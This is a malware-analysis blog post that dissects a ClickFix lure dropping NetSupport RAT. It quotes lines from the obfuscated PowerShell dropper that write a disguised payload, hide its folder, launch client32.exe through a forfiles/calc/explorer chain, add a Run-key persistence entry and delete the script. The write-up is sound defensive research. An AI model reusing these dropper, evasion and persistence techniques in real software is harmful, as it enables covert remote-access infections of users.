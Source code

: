 ```yaml
---
layout: post
title:  "NetSupport RAT"
date:   2025-09-09 21:00:00 +1000
categories: malware
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Clickfix NetSupport RAT.

Standard Cloudflare turnstile that leads to a lure to paste a command into windows run.

### Dropper 


### .Wav File

We've got 11.5mbs of a wav file.

When I open it up it is actually a powershell file. 

If we have a look at the clickfix command it actually saves the .wav as a .ps1

I assume this a method to bypass detection mechanisms that may prevent/inspect downloads with certain extensions (proxy).

### .Ps1 File

I'll save the .wav as a .ps1

First glance. Looks like some minor obfuscation. And lots of bytes.

![alt text](/images/ps1_netsupport.PNG)

What I can see:
- Creates a marker file in the /Temp directory as '__init__log'
- Writes some jargon on the screen. Likely to trick the user into thinking it's verifying there identity.
- Defines $LjLSTACGF as a file/file path (Documents/HZze39v1.wav)
- Defines $xϞzzghϞ and assigns it a lot of bits and bytes

Now that weird variable name $xϞzzghϞ. The lightning bolt symbol things is supposedly the greek letter 'Koppa'. Cool I guess.

Let's scroll down and see what else we have

![alt text](/images/ps1_netsupport2.PNG)

Now bit to unpack, I'll go through each line one by one.

`[byte[]]$kKtyJL = $xϞzzghϞ + $mcZΛkϞπ + $RζπrMwGEQi`

Alright we've got the variable $kKtyJL. This looks to consist of the bytes in `xϞzzghϞ`, `mcZΛkϞπ` and `RζπrMwGEQi`

So, when I search for the two unknown variables `mcZΛkϞπ` and `RζπrMwGEQi` they muchlike `xϞzzghϞ` have a bunch of bits and bytes.

So what we are seeing is $kKtyJL now contains all the bytes from those three variables. So currently that is our payload/bytes we want to track further down this script.

`[IO.File]::WriteAllBytes($LjLSTACGF, $kKtyJL)`

So here it is writing the raw bytes of `$kKtyJL` to the variable `$LjLSTACGF` which if you remember from earlier is the filepath `Documents\HZze39v1.wav`.

`$weBRvm = [IO.Path]::ChangeExtension($LjLSTACGF, 'zip')`
`Rename-Item -Path $LjLSTACGF -NewName (Split-Path $weBRvm -Leaf) -Force -ErrorAction SilentlyContinue`

`$weBRvm` sets the new desired file path `Documents\HZze39v1.zip`

And the second line of code actually renames the file `HZze39v1.wav` to `HZze39v1.zip`

`$CRKaNcWH = Join-Path (Join-Path $env:USERPROFILE 'Documents') 'PwNRbgjSHr'`
`if (-not (Test-Path $CRKaNcWH)) { New-Item -ItemType Directory -Path $CRKaNcWH | Out-Null }`

These two lines create a folder in Documents called `PwNRbgjSHr`

So now in documents we have two modifications made by the script:
- `Documents\HZze39v1.zip` (re-naming and creation of .zip with bytes inside) ($weBRvm)
- `Documents\PwNRbgjSHr` (creation of folder) ($CRKaNcWH)

Bloody tough tracking all these varibles. But, we are interested in `$weBRvm` as that has the bytes!

`try { (Get-Item $CRKaNcWH).Attributes = 'Hidden' } catch { }`

Attempts to make the `Documents\PwNRbgjSHr` hidden.

`Start-Sleep (Get-Random -Min 3 -Max 6)`

Has a breather. Everyone needs a timeout.

`Expand-Archive -Path $weBRvm -DestinationPath $CRKaNcWH -Force`

Expands the contents of `$weBRvm` and writes it to the path `$CRKaNcWH`

`Remove-Item $weBRvm -Force -ErrorAction SilentlyContinue`

Removes evidence of `$weBRvm`

It now lives in here `Documents\PwNRbgjSHr`

`$ziπbKVG = Join-Path $CRKaNcWH 'client32.exe'`

Creates a new variable `$ziπbKVG` and writes the bytes of our payload stored in `Documents\PwNRbgjSHr` to an .exe named `client32.exe`

`Start-Sleep 10`

Has another breather. Gee whiz this script must be working hard.

![alt text](/images/ps1_netsupport3.PNG)

Creates a few new variables here:
- `$wd` is `Documents\PwNRbgjSHr\client32.exe` file
- `$exe` is now `Documents\PwNRbgjSHr\client32.exe`
- `$quoted` is now `Documents\PwNRbgjSHr\client32.exe` which some character spaces either side.

`$cmdline` is assigned the string `'forfiles /p C:\Windows\System32 /m calc.exe /c "cmd /c start \"\" \"C:\Windows\explorer.exe\" ' + $quoted + ' \""'`

Well, this is new.

Forfiles.exe (windows binary) finds calc.exe (windows binary) which in turn opens explorer.exe (windows binary) to run `$quoted` which is `Documents\PwNRbgjSHr\client32.exe`

`cmd.exe /c $cmdLine`

Then it is ran using cmd.exe

![alt text](/images/ps1_netsupport4.PNG)

Now this is cool. Creates a run key in registry for `$ziπbKVG` which is `client32.exe`

Names it 'SecureModule'. Epic.

`try { Remove-Item -Path $MyInvocation.MyCommand.Path -Force } catch {}`

Last but not least! Cleanup! 

Deletes the file from disk. That being the script we ran wayyyyy back at the start.

### Client32.exe

So let's try print out our payload `client32.exe` and whack it into some analysis tools. 

But first I've got to build it safely.

![alt text](/images/ps1_netsupport5.PNG)

I've commented out a bunch of code and renamed it to understand it. But essentially I'm building the file with the bytes and naming it `nothanks.zip`

Lets extract and peek inside.

![alt text](/images/netsupport_folder.PNG)

What we have here is NetSupport RAT.

Which is an RAT created by "netsupportsoftware.com" that has been re-purposed and used for nefarious reaosns.

![alt text](/images/netsupport_hash.PNG)

The hash lights up like a christmas tree in VT.

![alt text](/images/netsupport_strings.PNG)

Running strings on 'Client32.exe' shows the author 'netsupportsoftware.com'

What I now need to do is find an IP. Where is the beacon pinging out to. Yes I could run in a sandbox but that's not as fun as looking for a needle in a haystack.

### Finding an IP

`\b(?:(?:25[0-5]|2[0-4]\d|1\d\d|[1-9]?\d)\.){3}(?:25[0-5]|2[0-4]\d|1\d\d|[1-9]?\d)(?::\d{1,5})?\b`

I got ChatGPT to spin me up this regex query looking for an IP and/or IP + port pattern.

I've then ran this regex query in the strings module in Detect It Easy for all the files. And I have a few hits. But no clear IPs.

Whilst I'm manually opening each file and pasting the regex query I had an idea. I can probably script this function using PowerShell and rather than give it one regex query. Give it 5-6. One for domains, one for IP, one for 'ClientIP' perhaps. 

So I'm gonna build a script to do so.



### Attribution
